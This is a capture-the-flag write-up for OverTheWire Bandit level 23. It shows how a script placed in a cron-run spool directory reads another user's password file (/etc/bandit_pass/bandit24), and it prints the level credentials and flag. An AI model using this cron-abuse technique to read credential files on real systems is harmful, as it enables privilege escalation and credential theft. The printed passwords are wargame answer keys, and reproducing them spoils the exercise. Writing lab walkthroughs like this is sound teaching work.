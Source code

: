 # OverTheWire Bandit Level 23

## Credentials
username: bandit23
password: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

## Writeup
I was once again directed to the crontab directory. The cronjob for level24 runs a shell script with the following code.

```
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

I have to create a shell script and place it in /var/spool/bandit24/foo for it to be executed. The cronjob for bandit24 will run the script every minute.

This is the shell script I used:

```
#!/bin/bash

cat /etc/bandit_pass/bandit24
```

The terminal command which I used is shown below. I first set the `+H` flag which disables `! style history substitution`. The `-e` switch on echo tells the command to read newlines.

`echo -e "cat /etc/bandit_pass/bandit24 > /tmp/asdfjkl1234" > /var/spool/bandit24/foo/zzz.sh && chmod +x /var/spool/bandit24/foo/zzz.sh`

After the file was executed, I was able to obtain the flag by catting `/tmp/asdfjkl1234`.

## Flag
Level 24 Password: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
